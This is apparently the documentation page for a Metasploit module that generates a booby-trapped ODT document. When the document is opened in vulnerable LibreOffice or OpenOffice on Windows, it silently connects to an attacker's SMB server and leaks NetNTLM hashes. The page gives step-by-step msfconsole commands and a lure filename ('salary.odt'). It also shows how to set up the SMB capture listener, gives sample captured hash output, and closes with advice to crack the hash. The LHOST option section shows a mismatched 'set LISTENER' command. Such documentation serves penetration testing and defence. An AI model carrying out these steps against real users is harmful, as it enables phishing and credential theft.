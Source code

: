 BADODT Module creates an ODT file which includes a file:// link which points back to a listening SMB capture server.
This module has been tested on both LibreOffice 6.03 /Apache OpenOffice 4.1.5 and upon opening connects to the server
without providing any warning to the user. This allows an attacker the opportunity to potentially steal NetNTLM hashes.

## Vulnerable Application

 - [LibreOffice 6.03](https://www.libreoffice.org/download/download/)
 - [Apache OpenOffice 4.1.5](https://sourceforge.net/projects/openofficeorg.mirror/files/4.1.5/binaries/en-US/Apache_OpenOffice_4.1.5_Win_x86_install_en-US.exe/download)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/odt_badodt```
  4. Customise Options as required
  5. Do: ```run```
  6. A malicious document will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Send document to target and wait for them to open.

## Options

### CREATOR

This option allows you to customise the document author for the new document:
```
set CREATOR New_User
```

### FILENAME

This option allows you to customise the generated filename:
```
set FILENAME salary.odt
```

### LHOST

This option allows you to set the IP address of the SMB Listener that the .odt document points to:

```
set LISTENER 192.168.1.25
```

## Scenarios

Install LibreOffice 6.03 or Apache OpenOffice 4.1.5 on a Windows workstation.  (Note: This attack does not work against Mac or Linux versions.)

  ```
  msf > use auxiliary/fileformat/odt_badodt 
  msf auxiliary(fileformat/odt_badodt) > set FILENAME salary.odt
  FILENAME => salary.odt
  msf auxiliary(fileformat/odt_badodt) > set LHOST 192.168.1.25
  LHOST => 192.168.1.25
  msf auxiliary(fileformat/odt_badodt) > set CREATOR A_USER
  CREATOR => A_USER
  msf auxiliary(fileformat/odt_badodt) > exploit

  [*] Generating Malicious ODT File 
  [*] SMB Listener Address will be set to 192.168.1.25
  [+] salary.odt stored at /root/.msf4/local/salary.odt
  [*] Auxiliary module execution completed
  msf auxiliary(fileformat/odt_badodt) > 
  ```

On an attacker workstation, use a tool to serve and capture an SMB share on port 445, capturing NTLM hashes.  Note that any tool listening on :445 will require superuser permissions:

  ```
  $ sudo ./msfconsole
  msf > use auxiliary/server/capture/smb 
  msf auxiliary(server/capture/smb) > run
  [*] Auxiliary module running as background job 0.
  msf auxiliary(server/capture/smb) >
  [*] Server started.

  msf auxiliary(server/capture/smb) >
  ```

Leave the metasploit SMB server listening while the user opens the document.  Upon opening the ODT file, the user workstation will attempt to connect (and authenticate) to the attacker workstation:

  ```
  [*] SMB Captured - 2018-06-06 11:14:23 -0500
  NTLMv2 Response Captured from 192.168.108.171:49180 - 192.168.108.171
  USER:asoto-r7 DOMAIN:WIN-TSD7B7BQKDQ OS: LM:
  LMHASH:Disabled
  LM_CLIENT_CHALLENGE:Disabled
  NTHASH:3910d841a30289ad9876e09321c1099a
  NT_CLIENT_CHALLENGE:0101000000000000a9d923e9f909391957581abc8d91038400000000020000000000000000000000
  ```

Finally, crack the hash to capture the user's credentials.
